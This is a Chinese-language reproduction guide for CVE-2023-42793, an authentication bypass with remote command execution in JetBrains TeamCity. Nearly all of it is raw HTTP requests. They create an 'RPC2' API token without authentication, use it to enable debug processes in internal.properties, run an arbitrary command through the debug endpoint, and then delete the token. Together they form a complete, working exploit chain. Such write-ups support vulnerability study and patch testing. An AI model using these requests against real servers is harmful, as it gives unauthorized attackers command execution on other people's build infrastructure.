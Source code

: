 # Jetbrains TeamCity 认证绕过导致远程命令执行漏洞 CVE-2023-42793

漏洞描述
TeamCity 是 JetBrains 的构建管理和持续集成服务器。

在 TeamCity 2023.05.3 版本及以前，存在一处由于逻辑错误导致的认证绕过漏洞，攻击者利用该漏洞最终可以在目标服务器上执行任意命令。

漏洞复现
造成这个漏洞的原因是 TeamCity 内部对于所有以/RPC2为后缀结尾的请求都不认证权限。

而正好添加API Token的请求的结尾参数是Token的名字，我们可以添加一个名字为RPC2的API Token：
```
POST /app/rest/users/id:1/tokens/RPC2 HTTP/1.1
Host: your-vps-ip:8111
Accept-Encoding: gzip, deflate, br
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/121.0.6167.85 Safari/537.36
Connection: close
Cache-Control: max-age=0
Content-Type: application/x-www-form-urlencoded
Content-Length: 0
```

这样就成功绕过权限认证生成了一个新的Token：
```
<?xml version="1.0" encoding="UTF-8" standalone="yes"?><token name="RPC2" creationTime="2024-02-26T06:26:36.980Z" value="eyJ0eXAiOiAiVENWMiJ9.bW8zdzY3TFJCTXRscmJsWkZFZTdYZEdqX1FN.NmQ2MWI4YTMtOTc5MC00NTA1LTkxOGItYmRkMmMwMDcwYjcw"/>
```
使用该Token来开启调试模式：
```
POST /admin/dataDir.html?action=edit&fileName=config%2Finternal.properties&content=rest.debug.processes.enable=true HTTP/1.1
Host: your-vps-ip:8111
Accept-Encoding: gzip, deflate, br
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/121.0.6167.85 Safari/537.36
Connection: close
Cache-Control: max-age=0
Content-Type: application/x-www-form-urlencoded
Content-Length: 0
Authorization: Bearer eyJ0eXAiOiAiVENWMiJ9.bW8zdzY3TFJCTXRscmJsWkZFZTdYZEdqX1FN.NmQ2MWI4YTMtOTc5MC00NTA1LTkxOGItYmRkMmMwMDcwYjcw
```
开启调试模式后，就可以执行任意命令了：
```
POST /app/rest/debug/processes?exePath=id HTTP/1.1
Host: your-vps-ip:8111
Accept-Encoding: gzip, deflate, br
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/121.0.6167.85 Safari/537.36
Connection: close
Cache-Control: max-age=0
Content-Length: 0
Authorization: Bearer eyJ0eXAiOiAiVENWMiJ9.UTlaUm5sYzQtRUZ0YTNhT1llU2xpTU43TjNF.MWY2NjI4MmQtYzFlMi00YTEwLTk1ZTEtMDFiZmZiOGY2NGY0
```
利用结束后，最好能够删除名为RPC2的API Token，避免对业务造成问题：
```
DELETE /app/rest/users/id:1/tokens/RPC2 HTTP/1.1
Host: your-vps-ip:8111
Accept-Encoding: gzip, deflate, br
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/121.0.6167.85 Safari/537.36
Connection: close
Cache-Control: max-age=0
Content-Type: application/x-www-form-urlencoded
Content-Length: 0
```